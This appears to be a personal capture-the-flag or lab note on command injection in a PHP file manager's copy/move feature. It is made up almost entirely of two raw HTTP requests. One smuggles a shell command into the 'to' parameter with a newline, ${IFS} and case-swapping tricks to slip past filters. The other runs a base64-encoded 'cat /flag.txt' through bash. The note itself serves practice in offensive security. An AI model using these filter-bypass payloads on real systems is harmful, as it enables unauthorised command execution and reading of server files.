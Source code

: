 copy and move fueature is injectable 

payload: 

GET /index.php?to=``%0a$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"WhOaMi")&from=605311066.txt&finish=1&move=1 HTTP/1.1
Host: 94.237.63.3:36771
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://94.237.63.3:36771/index.php?to=tmp&from=605311066.txt
Cookie: filemanager=6l77625krjl125v5jap29pub1k
Upgrade-Insecure-Requests: 1
Sec-GPC: 1


to get flag with cat /flag.txt 

GET /index.php?to=%0abash<<<$(base64${IFS}-d<<<Y2F0IC9mbGFnLnR4dAo=)&from=51459716.txt&finish=1&move=1 HTTP/1.1
Host: 94.237.63.3:34075
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://94.237.63.3:34075/index.php?to=tmp&from=51459716.txt
Cookie: filemanager=hmc9r38i5t0rvqjs3sl8cla4r9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1


<span style="color:rgb(255, 0, 0)">get better at the DETECTION step -> stuggling too long / not finding it !!! </span> 

